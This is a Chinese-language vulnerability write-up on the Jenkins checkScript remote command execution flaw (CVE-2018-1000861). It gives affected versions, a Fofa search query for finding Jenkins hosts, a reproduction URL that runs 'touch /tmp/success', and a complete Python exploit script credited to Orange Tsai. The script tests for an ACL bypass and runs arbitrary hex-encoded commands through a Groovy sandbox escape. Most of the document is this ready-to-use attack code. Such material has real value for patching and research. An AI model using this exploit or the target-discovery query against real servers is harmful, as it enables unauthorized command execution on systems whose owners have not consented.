 # Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

## 漏洞影响

```
Jenkins version < 2.138
Jenkins build time < 2019-01-28
```

## 网络测绘

```
app="Jenkins"
```

## 漏洞复现

登录页面

![image-20220525163018864](./images/202205251630920.png)

使用 EXP 执行命令

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```

![image-20220525163041244](./images/202205251630302.png)

成功创建`/tmp/success`

![image-20220525163103929](./images/202205251631975.png)

## 漏洞POC

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```